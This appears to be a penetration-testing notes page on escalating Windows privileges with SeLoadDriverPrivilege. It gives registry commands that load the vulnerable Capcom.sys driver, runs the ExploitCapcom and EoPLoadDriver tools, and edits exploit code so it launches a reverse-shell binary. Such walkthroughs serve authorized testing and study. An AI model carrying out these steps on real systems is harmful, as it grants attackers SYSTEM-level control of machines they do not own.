


# SeLoadDriverPrivilege

Enable the permission first: Use [UACMe](https://github.com/hfiref0x/UACME) to bypass UAC

It's well known that the driver Capcom.sys contains functionality to allow any user to execute shellcode with SYSTEM privileges

Use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) to load driver

Add these includes:

```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Next compile it with using cl.exe like so:&#x20;

`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`&#x20;

<figure><figcaption></figcaption></figure>

### Add a reference to driver

Then download Capcom.sys driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and save it to C:\temp Then:

```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

### Verify Driver not loaded

Use [DriverView.exe](http://www.nirsoft.net/utils/driverview.html) `.\DriverView.exe /stext drivers.txt`

`cat drivers.txt | Select-String -pattern Capcom`

Then run the **EnableSeLoadDriverPrivilege.exe** that was previously compiled `EnableSeLoadDriverPrivilege.exe`

### Verify Capcom Driver is Listed

```
.\DriverView.exe /stext drivers.txt
```

```
cat drivers.txt | Select-String -pattern Capcom
```

### Use ExploitCapcom Tool to Escalate Privileges

Use [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) after compiling

&#x20;&#x20;

<figure><figcaption><p>Now we get a system shell</p></figcaption></figure>

## No gui

If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with **msfvenom**, for example: `c:\ProgramData\revshell.exe.`

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The Command Line string in this example would be changed to:

```
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

## Automating with EopLoadDriver

[EopLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run ExploitCapcom.exe to pop a SYSTEM shell or run our custom binary.
